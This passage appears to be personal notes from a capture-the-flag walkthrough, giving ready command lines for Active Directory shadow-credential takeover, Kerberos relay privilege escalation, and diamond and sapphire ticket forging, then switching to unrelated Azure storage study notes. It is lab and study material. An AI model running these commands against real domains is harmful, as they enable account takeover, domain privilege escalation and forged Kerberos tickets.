Described by [Elad Shamir](https://medium.com/@elad.shamir) (Service Architect at [SpecterOps](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)) as *a technique allows an attacker to take over an AD user or computer account if the attacker can modify the target object's (user or computer account) attribute `msDS-KeyCredentialLink` and append it with alternate credentials in the form of certificates.- iredteam*.  `msDS-KeyCredentialLink` is an attribute for raw public keys of any Active Directory user and computer objects. When initialisation kerberos authentication the pre-authenticate check run by the KDC will include a matching private key for the TGT to set if there is a match.

**Requirements**:
- Domain must have Active Directory Certificate Services and Certificate Authority configured.
- Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

***WARNING*** - thehacker.recipes: *The `msDS-KeyCredentialLink` feature was introduced with Windows Server 2016. However, this is not to be confused with PKINIT which was already present in Windows 2000. The `msDS-KeyCredentialLink` feature allows to link an X509 certificate to a domain object, that's all.*

1. Create an RSA key pair
2. Create an X509 certificate configured with the public key
3. Create a [KeyCredential](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/de61eb56-b75f-4743-b8af-e9be154b47af) structure featuring the raw public key and add it to the `msDs-KeyCredentialLink` attribute
4. Authenticate using PKINIT and the certificate and private key

From Windows
```powershell
# Enumerate for target account
Whisker.exe list /target:"TARGET_SAMNAME"
# Add target account
Whisker.exe add /target:"TARGET_SAMNAME"
# Manaipulate
Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"

# Show msds-keycredentiallink attribute
get-netcomputer $TARGET_SAMNAME
# Ask for TGT with Rubeus
Rubeus.exe asktgt /user:$TARGET_SAMNAME /certificate:"CERT_KEY" /domain:$Domain.$TLD /dc:$DCName.$Domain.$TLD /getcredentials /show /ptt

# Ask for TGS for DA for a coputer account takeover
# As above add a shadow credential for this time a computer 
# Whisker.exe add $newServiceName -> Rubeus.exe asktgt
Rubeus.exe s4u /dc:$DCName.$Domain.$TLD  /ticket:$TICKET== /impersonateuser:$DomainAdminUser@$Domain.$TLD /ptt /self /service:host/$server.$Domain.$TLD /altservice:cifs/$newServiceName.$Domain.$TLD

ls \\$newServiceName.$Domain.$TLD\c$

```

From Linux
```bash
pywhisker.py -d "FQDN_DOMAIN" -u "USER" -p "PASSWORD" --target "TARGET_SAMNAME" --action "list"
# Add action from pywhisker is featured in ntlmrelayx
ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'
```

thehacker.recipes: *User objects can't edit their own `msDS-KeyCredentialLink` attribute while computer objects can. This means the following scenario could work: [trigger an NTLM authentication](https://www.thehacker.recipes/a-d/movement/mitm-and-coerced-authentications) from DC01, [relay it](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/broken-reference/README.md) o DC02, make pywhisker edit DC01's attribute to create a Kerberos PKINIT pre-authentication backdoor on it, and have persistent access to DC01 with PKINIT and [pass-the-cache](https://www.thehacker.recipes/a-d/movement/kerberos/ptc). Computer objects can only edit their own `msDS-KeyCredentialLink` attribute if KeyCredential is not set already.*

[SpecterOps - Shadow Credentials Post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

```bash
# AbsoluteLDAP2022!
../impacket/examples/getTGT.py absolute.htb/m.lovegod
KRB5CCNAME=$(pwd)/m.lovegod.ccache ../impacket/examples/dacledit.py -k -no-pass -dc-ip 10.129.229.59 -principal m.lovegod -action write -target "Network Audit"  -rights FullControl absolute.htb/m.lovegod

kinit m.lovegod
net rpc group addmem "Network Audit" -k -U  m.lovegod -S dc.absolute.htb m.lovegod 
../impacket/examples/getTGT.py absolute.htb/m.lovegod
net rpc group members "Network Audit" -k -U m.lovegod -S dc.absolute.htb 

KRB5CCNAME=m.lovegod.ccache certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.129.229.59 -target dc.absolute.htb -account winrm_user
```

It worked!


Over four months of tinkering and learning!


https://www.youtube.com/watch?v=_nGpZ1ydzS8


## KRBRelay PrivEsc and THE FINAL HURDLES!


Default Windows installations, in which LDAP signing is disabled - 


this vulnerability is patched

https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html

[snovvcrash](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos/kerberos-relay)

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
- [mitm6 + Kerberos DNS Relay + AD CS ESC8](https://github.com/snovvcrash/PPN/blob/master/pentest/infrastructure/ad/kerberos/kerberos-relay.md#mitm6--kerberos-dns-relay--ad-cs-esc8)
- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)

#### Tools:
- KrbRelay
	- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
	- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
	- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)
- KrbRelayUp
	- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
	- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)
	- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)
	- [https://github.com/Dec0ne/DavRelayUp](https://github.com/Dec0ne/DavRelayUp)


But ofcourse `evil-winrm` breaks and so does `KrbRelay.exe` - big takeway - the in the real world the tools are broken and need modifications, investigation screenshots for exact run conditions


The Writeup recommends https://github.com/antonioCoco/RunasCs *is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. This tool is an improved and open version of windows builtin runas.exe that solves some limitations:*
- Allows explicit credentials
- Works both if spawned from interactive process and from service process
- Manage properly _DACL_ for _Window Stations_ and _Desktop_ for the creation of the new process
- Uses more reliable create process functions like `CreateProcessAsUser()` and `CreateProcessWithTokenW()` if the calling process holds the required privileges (automatic detection)
- Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no _UAC_ limitations)
- Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
- Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
- Allows redirecting _stdin_, _stdout_ and _stderr_ to a remote host
- It's Open Source :)

Because of the insight provided by the Writeup we look for running sessions, which on a domain controller seems like a full-fruitcake non-actuality.  *"Who left the GUI session open on the DC?"*


Never see `evil-winrm` error out like that, but given that Ippsec also states the patched and unlikely exploitation of this as a low-priv user I am happy to copy and paste to finish this of.


Just in case as there is automation on this machine
```powershell
.\RunAsCs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "C:\users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10 -add-groupmember Administrators winrm_user"
```

https://www.youtube.com/watch?v=rfAmMQV_wss

## Beyond Root

A couple of `evil-winrm` crashes latter and a sliver beacon on the machine to avoid dealing with `evil-winrm` hellscape. Also no AV evasion required or self-sign LicroSoft.com scarecrowage. For the Ticket attack research and attempt to play around I used the most up-to-date resource on the open internet on AD matter that being: https://www.thehacker.recipes. Due time restrictions and that I have already done Golden and Silver ticket attacks I will return on another box to perform these attacks.

#### Diamond Tickets

[thehacker.recipes](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets/diamond): *Golden and Silver Tickets can usually be detected by probes that monitor the service ticket requests (`KRB_TGS_REQ`) that have no corresponding TGT requests (`KRB_AS_REQ`). Those types of tickets also feature forged PACs that sometimes fail at mimicking real ones, thus increasing their detection rates. Diamond tickets can be a useful alternative in the way they simply request a normal ticket, decrypt the PAC, modify it, recalculate the signatures and encrypt it again. It requires knowledge of the target service long-term key (can be the `krbtgt` for a TGT, or a target service for a Service Ticket).*

Linux
```bash
# In its actual form (as of September 9th, 2022), the script doesn't modify the PAC in the ticket obtained but instead fully replaces it with a full-forged one. This is not the most stealthy approach as the forged PAC could embed wrong information. Testers are advised to opt for the sapphire ticket approach. On top of that, if there are some structure in the PAC that Impacket can't handle, those structures will be missing in the newly forged PAC.
ticketer.py -request -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'
```

Windows
```powershell
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```
#### Sapphire Tickets

Sapphire Tickets are like Diamond Tickets, but ticket is not forged and instead is based on a legitimate ticket obtained after a request - all that is different is how the PAC is modified:
- Diamond modifies the legitimate PAC
- Sapphire *the PAC of another powerful user is obtained through an [S4U2self+u2u trick](https://www.thehacker.recipes/a-d/movement/kerberos#s4u2self-+-u2u)* (Service for a User user your are request the ticket on behalf of called "principal", then User to User Authentication (one user is a server and the other a client))
	- Replacing the PAC in the legitimate ticket 

*As of September 11th, 2023,  this feature is in a pull request ([#1411](https://github.com/SecureAuthCorp/impacket/pull/1411)) awaiting to be merged. 

1. The `user-id` both the nthash and aeskey must be supplied. 
2. The `-user-id` argument will be used to build the "Requestor" PAC structure, which could be needed in up-to-date environments (see warning at the bottom of this page).

*The arguments used to customize the PAC will be ignored (`-groups`, `-extra-sid`,`-duration`), the required domain SID (`-domain-sid`) as well as the username supplied in the positional argument (`baduser` in this case). All these information will be kept as-is from the PAC obtained beforehand using the [S4U2self+2u](https://www.thehacker.recipes/a-d/movement/kerberos) trick* `(Service for a User user your are request the ticket on behalf of called "principal", then User to User Authentication (one user is a server and the other a client))`. 

```bash
ticketer.py -request -impersonate 'domainadmin' \
-domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' \
-nthash 'krbtgt NT hash' -aesKey 'krbtgt AES key' \
-user-id '1115' -domain-sid 'S-1-5-21-...' \
'baduser'
```

In 2021, Microsoft issued a patch ([kb5008380](https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)) - explained in this [blogpost](https://blog.netwrix.com/2022/01/10/pacrequestorenforcement-and-kerberos-authentication/) When the patch entered its enforcement phase (Oct. 11th 2022), it made the Sapphire Ticket attack harder to conduct.
- Rubeus patch [#1391](https://github.com/fortra/impacket/pull/1391) and [#1545](https://github.com/fortra/impacket/pull/1545)
- Impacket patches [#105](https://github.com/GhostPack/Rubeus/pull/105)
*However, since the Sapphire Ticket technique relies on a S4U2self + U2U service ticket* `(Service for a User user your are request the ticket on behalf of called "principal", then User to User Authentication (one user is a server and the other a client))` *request to obtain a privileged user's PAC, the PAC doesn't feature the two new "Requestor" and "Attributes" structures. This is probably because the two new structures are only included in TGT's PACs and not service tickets PACs. When using the Sapphire Ticket technique to forge a TGT, if the two structures are missing from the forget ticket, a `KDC_ERR_TGT_REVOKED` error will be raised in environments that have the patch installed.*

## Azure

Instead of Azure AD / Entra ID as I confident in this area revision for Azure Bastion, Builtin Roles considerations and Storage.

Assumptions:
- Hybrid cloud
- Azure Connect is live
- Azure Gateway and VPN ready
- VNets configured as requirements to make this section of the syllabus
- Existing with no IP address clashes:
	- Resource Group
	- Storage Group 
	- Vnet
 

- Implement Azure Bastion
	- Subnet required 
	- `Search -> $VNet -> Bastion`

- Manage built-in Azure roles for resources
	- Remember that you filter by tenant!
		- Tiering from Global Admins to lesser Admins in Azure, Azure AD, AD and Host machine
			- Ownership and Role - [Microsoft Entra ID builtin Roles](https://learn.microsoft.com/en-us/azure/active-directory/roles/permissions-reference)
				- What can be owned? - think CRUD
					- Users, Groups, Devices, Resources, Authentication, Policy, Services, Configuration
						- External or Internal relative to X
						- Context - Dynamic Devices or Guest User are temporary therefore think PoLP
			- The assign machine to user the default Admin is that Use - most likely requires change
		- Microsoft Entra ID Registered != Microsoft Entra ID Joined 
		- Access policy! 

- Create and configure a file share in Azure Storage
	- Open port 445 - check Firewall!
- Create and configure a container in Blob Storage
	- `Azure Storage accounts -> + Container -> Name and Change "Public Access Level"`
- Configure storage tiers
	- Hot, Cold, Archive - 
- Configure snapshots and soft delete for Azure Files
	- `Storage Account -> $storage_account -> File Shares -> $file_share -> Snapshots

- Configure blob lifecycle management
	- `Storage Account -> $storage_account -> Lifecycle Management`
	- `Search Storage Account -> $storageAccount -> Data Management -> Lifecycle Management -> List View | Add rules`
	- Rule-based run scheduling
	- Rule-based condition to resource(s)
		- 30 to cold
		- 90 days to Archive
- Configure blob versioning
	- `$blob -> Data protection -> Versioning -> click Enabled`

For each office network set aside two servers Windows for MABS and to ensure File Sync to cloud. 
1. Deploy the Storage Sync Service
	- Configure:
		- The deployment name for the Storage Sync Service
		- The Azure subscription ID to use for the deployment
		- A Resource Group for the deployment
		- The deployment location
2. Prepare Windows Server(s)
	1. Install Azure File Sync agent
	2. Register servers with Storage Sync Service
		- The Storage Sync Service deployment name
		- The Resource Group for the deployment

- File share for day-to-day low-priv document sharing
- File share per management group per tier of PPI data 

- Policy for File Share snapshotting non-sensitive shares as sensitive shares are to share - backup will cloud GRS-read only and storage of sensitive data will on-site. Get your premium Azure backbone access!

- Create file share snapshots
	- `Storage Account -> $storage_account -> File Shares -> $file_share -> Snapshots

- Configure stored access policies
	 - ``
- Configure identity-based access for Azure Files
	- Configure Azure AD DS or Kerberos authentication for file shares
- Create and configure storage accounts
	- `Search -> Storage Account ->  + create`

As we assume hybrid cloud Azure connect setup, Domain and Password write to extend user permissions to file shares replicated into the cloud and on per File Share basis configure:
- kerberos for restrict to groups or specif users
- regular DS authentication for non guest or non-privilege shares that are read only.

- Configure Azure Storage redundancy
	- LRS, ZRS, GRS or Read-only GRS

Snapshotting relevant file shares, but if data is sensitive it needs to remain on premise or part of SAS token per file requests if sensitive files are required to be replicated to the cloud. 


- Configure object replication
	- Requires:
		- Versioning enabled
		- Does not support snapshots
		- Replication Policy

- Configure storage account encryption
	- `$SA -> Security and Networking -> Encryption`

Key Vault for everything - key expiration policy to enforce the rotation of keys

- Manage data by using Azure Storage Explorer and AzCopy
- Azure Storage Explorer
	- Requires: 	
		- (Azure Resource Manager)
	- Connect to storage accounts associated with your Azure subscriptions.
	- Connect to storage accounts and services that are shared from other Azure subscriptions.
	- Connect to and manage local storage by using the Azure Storage Emulator.
		- Sign-in through `StorageExplorer.exe` with an Azure Account
		- Add a resource via Azure AD, choosing the Azure tenant and the associated account
	- Or SAS
		- Then find connection node: `Local & attached > Storage Accounts > Attached Container > Service`
	- Or with Storage account name and key
	- For Data Lake Storage Gen1:
		-  URI associated with the data lake

With azcopy
```powershell
# Make file shares
azcopy make 'https://<storage-account-name>.file.core.windows.net/<file-share-name><SAS-token>'

# Upload files or directories
# Suport wildcard 
azcopy copy $localpath $remotepath # upload
# Download
azcopy copy $remotepath $localpath # download
azcopy login # create URI to login

# Supported by not recommended - doesn't support differential copies at scale
# Useful in Temporary File deletion and Syncing between Shares
azcopy sync $localpath $remotepath --delete-desitnation true
```

Regarding compliance over any PPI data of employee or App users all File shares will require

https://github.com/Azure/azure-quickstart-templates


